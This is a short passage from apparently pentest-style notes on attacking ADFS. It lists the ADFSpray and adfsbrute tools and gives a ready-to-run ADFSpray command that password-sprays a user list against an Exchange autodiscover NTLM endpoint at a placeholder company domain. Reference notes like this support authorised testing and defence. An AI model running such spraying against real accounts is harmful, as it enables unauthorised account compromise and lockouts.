 # ADFS




## ADFSpray

* [https://github.com/xFreed0m/ADFSpray](https://github.com/xFreed0m/ADFSpray)

Spray at autodiscover (NTLM auth) endpoint:

```
$ python3 ADFSpray.py -U users.txt -p 'Passw0rd!' -t 'https://autodiscover.megacorp.com/autodiscover/autodiscover.xml' autodiscover
```




## adfsbrute

* [https://github.com/ricardojoserf/adfsbrute](https://github.com/ricardojoserf/adfsbrute)
